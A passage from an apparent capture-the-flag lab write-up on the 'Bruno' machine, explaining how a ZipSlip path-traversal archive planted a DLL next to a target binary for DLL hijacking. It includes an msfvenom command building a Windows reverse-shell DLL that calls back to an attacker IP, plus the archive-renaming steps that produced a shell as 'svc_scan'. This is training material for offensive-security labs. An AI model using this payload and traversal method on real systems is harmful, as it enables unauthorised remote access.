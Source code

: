 After doing some research into what we have in front of us, I came across an interesting exploit that seems to fit our situation - the ZipSlip.

# DLL Hijacking via ZipSlip

[ZipSlip](https://security.snyk.io/research/zip-slip-vulnerability) is essentially a vulnerability that allows us to perform file creation via path traversal in a zip archive. If a zip archive is opened automatically by a program, we can create a compressed archive with a file that has path traversal characters in its name, such as `../revshell.exe`. This will place our executable in the parent folder of where it was opened.

In our case, we want to place a malicious executable in `../app/(malicious_file_here)`. This should be within the same path as the binary, which is where the application is trying to load DLLs from.

Since we know the names of the DLL that are not found within the application's direct path, we can use those as the names for our malicious DLLs. We can craft a malicious DLL using `msfvenom`, as seen below and then convert it to a zip archive. You can use either `hostfxr.dll` or `Microsoft.DiaSymReader.Native.amd64.dll`, as either will work for this.

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f dll LHOST=10.8.0.173 LPORT=9001 > hostfxr.dll            
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes

└─$ zip host.zip hostfxr.dll
  adding: hostfxr.dll (deflated 80%)
```

We can then use an archive manager such as 7-Zip File Manager (in my case I transferred the DLL to my Windows host) to view the archive and edit the name accordingly.

![](/images/vulnlab/bruno-vl/j.png)

As seen above, you can implement directory traversal characters in 7-Zip without any issues. This will create two mock directories within the archive, which will be the traversal method when we transfer it to the target machine.

Now that we have the respective archive set up, let's start up our listener and transfer the archive to the `queue` share. (Note that I changed the name of the archive to `host_sample.zip`)

![](/images/vulnlab/bruno-vl/k.png)

After some time as you'll see, the ZipSlip exploit worked properly and the DLL was moved to the `app` directory. After about a minute or so, you'll see that our reverse shell called back and we now should have a session as `svc_scan`.

![](/images/vulnlab/bruno-vl/l.png)

# Internal Enumeration
